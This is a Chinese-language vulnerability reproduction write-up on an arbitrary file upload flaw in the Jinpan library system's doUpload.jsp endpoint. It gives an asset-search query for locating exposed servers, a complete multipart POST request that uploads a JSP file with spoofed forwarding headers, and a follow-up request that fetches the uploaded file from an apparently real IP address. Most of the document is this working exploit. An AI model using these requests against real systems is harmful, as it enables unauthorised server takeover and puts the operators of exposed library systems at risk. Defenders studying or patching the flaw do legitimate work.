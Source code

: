 # 金盘图书馆系统doUpload存在任意文件上传漏洞

# 一、漏洞简介
金盘图书馆系统doUpload存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 金盘图书馆系统

# 三、资产测绘
+ hunter`web.body="/opac/opacRssCollect"`
+ 特征

![1706076005993-3c01f170-38cf-4fef-a8a9-9f2b8d038e47.png](./img/J_6NyNKSVhklsxlG/1706076005993-3c01f170-38cf-4fef-a8a9-9f2b8d038e47-740576.png)

# 四、漏洞复现
```plain
POST /pages/admin/tools/uploadFile/doUpload.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Content-Length: 235
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=----xbkdgks1fwucvok84tce
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1

------xbkdgks1fwucvok84tce
Content-Disposition: form-data; name="file";filename="tvrodinjqx.jsp"

<%out.println(111*111);new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------xbkdgks1fwucvok84tce--
```

![1706076044489-305f3cf0-e373-47b5-b0f9-c72f0570d05f.png](./img/J_6NyNKSVhklsxlG/1706076044489-305f3cf0-e373-47b5-b0f9-c72f0570d05f-592253.png)

上传文件位置

```plain
GET /upload/2024-01-24/1706077745930.jsp HTTP/1.1
Host: 42.247.6.28:9090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
```

![1706077840008-2a84e501-4e3c-4484-8b55-93a74b9f3b96.png](./img/J_6NyNKSVhklsxlG/1706077840008-2a84e501-4e3c-4484-8b55-93a74b9f3b96-027567.png)

[金盘图书馆系统-doupload-任意文件上传.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222151277-db0f2eb8-6fd5-4fbe-957a-bab7b52f6727.yaml)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/om1k8iewd86fg4op>